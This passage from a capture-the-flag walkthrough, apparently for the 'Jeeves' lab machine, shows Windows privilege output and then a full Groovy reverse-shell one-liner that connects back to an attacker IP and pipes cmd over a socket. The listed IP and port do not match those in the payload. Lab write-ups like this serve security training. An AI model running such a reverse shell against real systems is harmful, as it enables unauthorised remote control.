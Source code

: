 ```text
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

ERROR: Unable to get user claims information.

Jeeves
```

The target hostname is "Jeeves", and the account running these commands is a local service account.

### Exploitation

In order to get a shell, we need a groovy payload.

go to [revshell.com](https://www.revshells.com/). Get a shel for :

- IP: 10.10.14.12 (attacker IP)
- Port: 9001 (or any interesting port)
- OS: Windows
- Langage: Groovy
- Shell: cmd

```groovy
String host="10.10.14.8";int port=4444;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
